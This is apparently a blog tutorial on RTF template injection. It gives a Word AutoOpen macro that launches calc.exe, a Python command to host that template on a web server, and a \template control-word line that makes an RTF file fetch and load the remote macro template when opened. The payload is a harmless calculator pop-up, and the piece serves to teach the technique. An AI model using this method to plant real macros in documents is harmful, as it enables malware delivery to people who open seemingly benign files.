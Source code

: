 ```yaml
---
title: "RTF Template Injection"
date: "2022-02-09"
description: "In this example, we will demonstrate how to use the “template” control word to cause an RTF file to pop up the calculator app when opened.  “Hold on... I can use the Start menu to do that. Why should I care?”, you may wonder. The simple answer is that this technique can be easily modified to spread malicious macros using otherwise benign looking RTF files."
coverimage: RTF_Template_Injection.jpg
tags: exploit-development, rtf
published: true
---
```


In this example, we will demonstrate how to use the “template” control word to cause an RTF file to pop up the calculator app when opened.  “Hold on... I can use the Start menu to do that. Why should I care?”, you may wonder. The simple answer is that this technique can be easily modified to spread malicious macros using otherwise benign looking RTF files.

## What is an RTF file?

Tapping away in front of your Macintosh or the early versions of Windows, did you ever wonder what those .rtf files (Rich Text Format) were that you ever so occasionally encountered? The ones that were opened up with text editors (featuring a horizontal ruler) other than your trusted notepad?

RTF traces back to the late 1980s when it was developed and released. Rich text format files, as opposed to plain text files, can contain images, different font styles, formatting, and more. They are interoperable, which means they can be processed by a wide range of technologies, making them a portable file type. 

## Why should I care?

"Why should I care?" you might wonder. The short answer is that with little modification, this technique can be leveraged to spread malicious macros in otherwise benign RTF files - as actively being done by threat actor groups online. Within RTF files, specific control words (see http://latex2rtf.sourceforge.net/rtfspec_62.html for more) are used. These control words are specially formatted commands that instruct applications how to handle the file. Let us get started!  

# Instructions - RTF template injection with a calculator pop-up

In this example, we will demonstrate how to use the "template" control word to cause an RTF file to fetch another file from a web server controlled by us.  This example makes use of the template editing capabilities of RTF files, as well as the ability to fetch resources from a specified URL. The code we will use opens up a calculator on a Windows-based operating system when the RTF file is run. Note that macros will require enabling on your system.

<h5 class="step">Step 1 - Create a macro-enabled Word template file</h5>

This file will contain our macro that executes the calculator app when the RTF file is opened. 

Open Word and add the following Visual Basic code (macro) to it. Save the file as `calc.dotm`. 

```
Sub AutoOpen()
Dim Program As String
Dim TaskID As Double
Program = "calc.exe"
TaskID = Shell(Program, 1)
End Sub
```

*If you are unfamiliar with creating Word template files, we recommend checking out Microsoft's documentation on them: https://support.microsoft.com/en-us/office/save-a-word-document-as-a-template-cb17846d-ecec-49d4-82ea-a6f5e3e8b9ae.*

<h5 class="step">Step 2 - Start a web server</h5>

Launch an HTTP server in the folder containing the 'calc.dotm' file using your preferred method. If you are using Python 3, you can use the following command with the port number of your choice. 

```
python3 -m http.server <port number>
```

<h5 class="step">Step 3 - Create a benign RTF file</h5>

Get or make a simple RTF file. We will modify this in the next step to fetch our macro-enabled template file from the web server launched.

![](5e05c49b-2704-464a-9eb8-6afe16b298ec.png)

*There are sample RTF files you can use available online. Please always have your anti-virus solution enabled when downloading files from the Internet.*

<h5 class="step">Step 4 - Add remote template fetching capabilities to the RTF file</h5>

Use a HEX editor to open the RTF file created in the previous step. I used Hex Editor Neo. 

Look for a pre-existing enclosing group for a font family control word (for example, Times New Roman if your file uses it). Insert the following text after the font's ending tag with your listening IP and port + payload/file to fetch. 

```
{\*\template http://<your-IP>:<port number>/calc.dotm}
```

![](514cab5a-57fa-4783-9db1-35ca3867a8ef.png)

<h5 class="step">Step 5 - Show time</h5>

Save the changes and open the RTF file in its default application. If you are a Windows user, this will likely be Word. The remote file will be loaded from your web server and used to launch the calculator program when the RTF file is opened.

The below screen capture displays the macro-enabled template file being fetched.

![](20e0eb7d-9a66-4ff2-991c-366e9a7a3d84.png)

The below screen capture displays the RTF file opened and the calculator app launched.

![](c6ec75ba-dad0-4755-903a-7de8f5065320.png)

### Well that was easy... Where to from here?

I hope this article has served as a foundation for your further explorations. Why not look into creating your custom macro-enabled template files next?